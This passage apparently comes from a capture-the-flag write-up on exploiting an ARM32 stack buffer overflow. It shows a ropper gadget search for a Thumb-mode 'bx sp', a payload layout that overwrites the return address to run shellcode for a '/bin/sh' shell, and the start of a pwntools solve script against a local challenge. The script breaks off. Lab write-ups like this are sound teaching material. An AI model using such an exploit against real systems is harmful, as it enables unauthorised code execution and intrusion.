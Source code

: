 In this case, we'll need to look for a BX/BLX instruction in the binary, so that we can overwrite the return address with its address. We can use `ropper` :

![ropper](img/ropper.png "ropper")

As you can see, `ropper` shows two addresses for each gadget but highlights the odd address in green, this indicates that the instructions are in Thumb mode.  

Our final payload looks like this :
```
"/bin/sh\x00"
"A"*(padding-8) # -8 bytes for "/bin/sh\x00"
bx_sp gadget # overwrite return address
shellcode
```
Refer to the solve script below, for more details.

### Solve script

```python
#!/usr/bin/env python3
from pwn import *

elf = ELF("./challenge/arm32")

HOST, PORT = "localhost", 1337

context.binary = elf

def main():
    global io

    # padding to reach return address
    # 0x20 for buffer size
    # +4 for frame pointer
    pad = 0x20 + 4

    # gadgets
    # +1 is added because the instructions
    # are in thumb mode
    bx_sp = next(elf.search(
        asm("bx sp", arch="thumb"),
        executable=True
    )) + 1

    io = conn()

    payload = flat(
        "/bin/sh\0",
```